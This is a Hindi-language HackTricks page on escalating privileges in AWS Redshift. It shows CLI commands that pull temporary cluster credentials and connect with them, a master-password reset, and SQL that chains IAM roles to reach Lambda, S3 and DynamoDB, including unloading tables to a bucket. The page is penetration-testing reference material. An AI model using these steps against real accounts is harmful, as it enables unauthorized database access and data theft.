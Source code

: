 # AWS - Redshift विशेषाधिकार

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## Redshift

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-databases/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-databases/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

इन अनुमतियों के साथ आप **सभी क्लस्टरों की जानकारी** (नाम और क्लस्टर उपयोगकर्ता सहित) प्राप्त कर सकते हैं और इसे एक्सेस करने के लिए **प्रमाण पत्र** प्राप्त कर सकते हैं:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**संभावित प्रभाव:** डेटाबेस में संवेदनशील जानकारी खोजें।

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

इन अनुमतियों के साथ आप **सभी क्लस्टरों की जानकारी प्राप्त** कर सकते हैं और इसे एक्सेस करने के लिए **प्रमाणपत्र** प्राप्त कर सकते हैं।\
ध्यान दें कि पोस्टग्रेस उपयोगकर्ता के पास वह **अनुमतियाँ होंगी जो IAM पहचान** जिसका उपयोग प्रमाणपत्र प्राप्त करने के लिए किया गया है।
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**संभावित प्रभाव:** डेटाबेस में संवेदनशील जानकारी खोजें।

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

यह संभव है कि आप aws cli से आंतरिक postgres (redshit) उपयोगकर्ता का **मास्टर पासवर्ड संशोधित** करें (मुझे लगता है कि ये अनुमतियाँ आपको चाहिए लेकिन मैंने अभी तक इसे परीक्षण नहीं किया है):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**संभावित प्रभाव:** डेटाबेस में गोपनीय जानकारी खोजना।

## बाह्य सेवाओं तक पहुंचना

{% hint style="warning" %}
निम्नलिखित सभी संसाधनों तक पहुंचने के लिए, आपको **उपयोग करने के लिए भूमिका निर्दिष्ट करनी होगी**। रेडशिफ्ट क्लस्टर **को AWS भूमिकाओं की सूची सौंपी जा सकती है** जिन्हें आप **उपयोग कर सकते हैं अगर आप ARN जानते हैं** या आप बस "**डिफ़ॉल्ट**" सेट कर सकते हैं उपयोग करने के लिए जो डिफ़ॉल्ट सौंपी गई है।

इसके अतिरिक्त, जैसा कि [**यहाँ स्पष्ट किया गया है**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), रेडशिफ्ट भी भूमिकाओं को जोड़ने की अनुमति देता है (जब तक पहला वाला दूसरे को मान सकता है) ताकि आप आगे की पहुंच प्राप्त कर सकें लेकिन उन्हें बस **कॉमा** के साथ **अलग** करके सेट करें: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### लैम्बडा

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) में स्पष्ट किया गया है, रेडशिफ्ट से लैम्बडा फ़ंक्शन को **कॉल करना संभव है** कुछ इस प्रकार:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) में स्पष्ट किया गया है, **S3 बकेट में पढ़ने और लिखने** की संभावना है:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### डायनामो

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) में स्पष्ट किया गया है, **डायनामोडीबी से डेटा प्राप्त करना संभव है**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
डेटा प्रदान करने वाला अमेज़न डाइनामोडीबी टेबल आपके क्लस्टर के साथ एक ही AWS क्षेत्र में बनाया जाना चाहिए, यदि आप [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) विकल्प का उपयोग नहीं करते हैं तो जिस AWS क्षेत्र में अमेज़न डाइनामोडीबी टेबल स्थित है, उसे निर्दिष्ट करने के लिए।
{% endhint %}

### EMR

जांच करें [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## संदर्भ

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

